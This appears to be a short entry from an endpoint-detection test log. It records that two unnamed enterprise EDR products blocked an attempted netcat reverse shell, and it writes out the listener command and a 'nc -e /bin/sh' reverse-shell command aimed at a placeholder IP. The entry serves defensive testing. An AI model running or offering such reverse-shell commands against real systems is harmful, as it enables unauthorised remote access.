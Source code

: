 **Detections**
* Enterprise EDR Solution 1: Yes (Blocked)
* Enterprise EDR Solution 2: Yes (Blocked)

Attempted a shell using netcat.

Ran the following on my VM

`nc -lvp 1234`

Ran the following on our endpoint

`nc -e /bin/sh INSERT_IP_HERE 1234`

